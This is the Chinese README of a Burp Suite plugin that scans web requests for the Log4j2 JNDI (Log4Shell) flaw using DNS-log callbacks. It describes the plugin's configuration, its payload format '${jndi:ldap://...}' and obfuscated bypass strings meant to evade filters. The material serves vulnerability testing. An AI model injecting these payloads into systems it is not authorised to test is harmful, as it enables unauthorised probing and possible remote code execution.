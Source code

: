 # 本工具仅为企业测试漏洞使用，严禁他人使用本工具攻击
本插件基于https://github.com/f0ng/log4j2burpscanner/进行改造，在此感谢f0ng师傅在本项目上做出的贡献。

## 如何食用？
#dns_mothed
本插件支持3个dns平台：
	https://dns.xn--9tr.com/(默认使用)
	http://ceye.io/
	http://www.dnslog.cn/(由于延迟较高不建议使用)
本插件支持自定义dns平台

#log4j2burpscanner.properties
插件第一次运行时，会在burp目录下创建log4j2burpscanner.properties配置文件。其中的各项含义如下：
log_method=0		默认使用第0个dns平台
passivepattern=false		配合burp自带的被动扫描功能，默认关闭
ceyetoken=xxxxxx		ceye.io的用户token
ceyednslog=xxxx.ceye.io	ceye.io的用户dns地址
privatedns=xxxxxx		用户自定义dns地址
isuseUserAgentTokenXff=true	是否测试请求中的UA头/token头
isuseXfflists=false		是否测试Xff(X-forwarded-for)等请求头
isuseAllCookie=true		是否测试cookie
isuseRefererOrigin=false	是否测试Referer
isuseContenttype=false	是否测试Content-type
isuseAccept=false		是否测试useAccept
custom_dnslog_protocol=jndi:ldap:	ayload中"jndi:ladp:"的位置字段，可以自定义"jndi:"的bypass方式,例如输入${lower:j}ndi${::-:}lda${lower:p}:
dnslog_protocol_index=1		payload中"jndi:ladp:"的位置字段的一些默认提供项，设置为0就可使用上一项自定义的custom_dnslog_protocol，设置8为最强bypass
whitelists=*.gov.cn *.edu.cn	不进行测试的host名单
customlists=X-Client-IP X-Requested-With X-Api-Version
			需要额外添加并测试的请求头，用空格分隔
config中有save configuration，load configuration，test dnslog三个按钮，分别用于保存当前设定的properties，加载properties文件和测试当前选择的dns平台是否可用。


#output
插件加载完成后，应当出现如下字样
=============================================
[+]               load successful!           
[+]        log4j2burpscanner v0.22.funny       
[+] https://github.com/f0ng/log4j2burpscanner
[+]                 recode by funnyndk            
=============================================
[+]using log.xn--9tr.com now!
[+]dns address : 7f124f45.dns.1433.eu.org
[+]dns token : r3ewux4bob98
[+]You also can request to    https://log.xn--9tr.com/r3ewux4bob98    to see dnslog
其中dns address为payload中请求的域名，https://log.xn--9tr.com/r3ewux4bob98可以人为查看解析记录

#menu
对请求包右键的菜单栏中，新增了"Send to log4j2 Scanner"选项，点击后将对包进行注入改造并且测试。完成dns询问后，会在log4j2 RCE栏中展示恶意请求和结果等等

#payload
真正的payload格式如下
"${"+jndiparam+dnsldaprmi+"//"+random+"."+chosen_dnslog+"}"
pyload将根据设定和请求类型，注入所有的请求头或GET参数或POST参数中(存在特殊情况无法识别)


##FAQ
Q：为什么安装插件失败，提示java.lang.ClassFoundException: burp.BurpExtender
A：请使用jdk1.8，本插件开发环境为jdk1.8，测试环境为Burp Suite Pro 1.7.31。如果已使用jdk1.8，请更新jdk小版本。开发机版本为jdk1.8.0_291，请至少与之一致，

Q：为什么点了"Send to log4j2 Scanner"选项，log4j2 RCE栏中没有出结果
A：由于网络延迟，扫描可能较慢。或是请求包出现问题，没有相应返回，请检查是否被防火墙等设备封禁。

Q：为什么加载插件显示"load ERROR"
A：一般由于选择的dns平台无法正常访问，也有可能配置文件出现异常。

##dev or update note
/*
* 0.19.funny dev note
* 20220617 dev list
*   add a "dnslog.cn" dnslog platfrom chocie            done!
*   make it to a slowly passively auto-detection
*   more methods to bypass                              update continually...
*   more position in request to inject log4j2 payload   done!
* 20220623 dev list
*   fix the code bug                                    done!
*   test all program fuction                            done!
*/
/*
* 0.20.funny update note
* 20220629 update list 
*   fix the bug - cant send request without response to log4j2 scanner
*   update the feature - log4j2 scanner will show the records even though of which the request doesnt get a response
*/
/*
* 0.21.funny update note
* 20220704 update list 
*   update the feature - change how the plugin modifies custom_dnslog_protocol
* 
*/
/*
* 0.22.funny update note
* 20220801 update list
*   optimize the code - use "Abstract Factory" to dnslog platforms list, make it more easy to maintain current platforms or increase a new one
*   update the feature - add a random bypass mode like j => ${"random_str":"random_str":"random_str"... - j}
*   update the feature - support privatedns mode
*/